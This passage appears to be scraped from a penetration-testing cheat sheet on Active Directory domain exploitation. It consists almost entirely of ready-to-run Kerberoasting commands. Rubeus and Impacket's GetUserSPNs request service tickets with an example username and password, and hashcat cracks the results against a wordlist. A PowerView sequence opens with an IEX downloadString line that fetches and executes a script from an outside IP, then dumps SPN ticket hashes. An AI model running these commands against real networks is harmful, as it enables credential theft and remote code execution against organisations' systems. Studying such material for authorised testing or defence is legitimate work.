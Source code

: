 ###

Rubeus:[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1277'%3e%3cg data-evernote-id='1278' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1279' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1280' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#rubeus)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1284'%3e%3cg data-evernote-id='1285' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1286' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1287' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

./rubeus.exe kerberoast /creduser:burmat.co\xsvc /credpassword:S3cur3PW123 /outfile:user.hash

###

Impacket:[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1329'%3e%3cg data-evernote-id='1330' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1331' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1332' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#impacket-1)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1336'%3e%3cg data-evernote-id='1337' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1338' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1339' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

95./GetUserSPNs.py -request -dc-ip 10.10.10.123 burmat.co/xsvc:S3cur3PW123
96hashcat -m 13100 hash.txt -a 0 /usr/share/wordlists/rockyou.txt --force

###

PowerView:[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1354'%3e%3cg data-evernote-id='1355' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1356' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1357' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#powerview)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1361'%3e%3cg data-evernote-id='1362' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='1363' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='1364' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

97IEX(New-Object Net.WebClient).downloadString('http://10.10.15.123/ps/PowerView.ps1');

98$securePassword = ConvertTo-SecureString 'S3cur3PW123'  -AsPlainText -Force;

99$credential = New-Object System.Management.Automation.PSCredential('burmat.co\xsvc', $securePassword);

100Get-DomainUser -Credential $credential -Server dc01.burmat.co -SPN | Get-DomainSPNTicket -Credential $credential -OutputFormat Hashcat

##
